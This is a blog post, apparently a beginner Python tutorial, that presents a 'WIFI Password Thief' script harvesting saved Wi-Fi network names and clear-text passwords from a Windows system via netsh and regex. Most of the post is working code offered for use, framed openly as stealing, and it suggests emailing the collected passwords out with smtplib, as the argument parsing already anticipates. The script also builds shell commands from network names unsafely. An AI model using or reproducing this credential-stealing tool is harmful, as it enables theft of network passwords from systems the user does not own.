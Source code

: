 ```yaml
---
title: WIFI Password Thief
date: 2021-08-19 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: This script steals all relevant WIFI passwords from a given Windows system.
---
```


<p align="left">
 <img src="https://c.tenor.com/jL1f0JCmZEkAAAAM/ill-be-taking-that-spongebob.gif">
</p>


## This script steals all relevant WIFI passwords from a given Windows system.

- This can be coupled with the smtplib to send a report via email too.

- We use various netsh commands to view the WIFI details,passwords.

  > netsh wlan show profile - view ssid , common details.

  > netsh wlan show profile "network_name" key=clear - view password along with more info.

- We use regex to capture the relevant fields by seperating them into groups.



### Code: 

```python
#!/usr/bin/env python

import subprocess, re, argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-e", "--email", dest="email", help="Email-ID to recieve report")
    parser.add_argument("-p", "--password", dest="password", help="Password for provided Email-ID")
    options = parser.parse_args()
    if not options.email:
        # code to handle error
        parser.error("\n[-] Please specify a valid Email-ID,  use --help for info.")
    if not options.password:
        # code to handle error
        parser.error("\n[-] Please specify a valid Password,  use --help for info.")
    return options



print("""
                                                ＷＩＦＩ Ｐａｓｓｗｏｒｄ－Ｔｈｉｅｆ
      """)

options = get_arguments()


command = 'netsh wlan show profile'
networks = subprocess.check_output(command, shell=True).decode()
# Seperate regex into capturing groups
# \s - spaces; * - any no of; . - any type of char
# Set "Profile" as non capturing group using '?:'
# Use re.findall() to find all instances as lists that match instead of re.search()
network_names_list = re.findall("(?:Profile\s*:\s)(.*)", networks)
print("[!] Finding Network Names..")

result = ""
pass_result = ""
for network_name in network_names_list:
    command = "netsh wlan show profile " + network_name + " key=clear"
    current_result = subprocess.check_output(command, shell=True).decode()
    result += current_result
print("[!] Finding Network Passwords..")

banner = "\n\nWIFI SSID And PassList:\n"
loop_result = ""
counter = 0
passlist = re.findall("(?:Key Content\s*:\s)(.*)", result)
network_name = re.findall("(?:SSID name\s*:\s\")(.*)(?:\")", result)
try:
    print(banner)
    while True:
        net_name = network_name[counter] + ": "
        pass_name = passlist[counter]
        loop_result = net_name + pass_name
        counter += 1
        print(loop_result)    
except IndexError:
        exit()
```

### Output:

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/Malware-Wifi_pass_stealer/WIFI.png)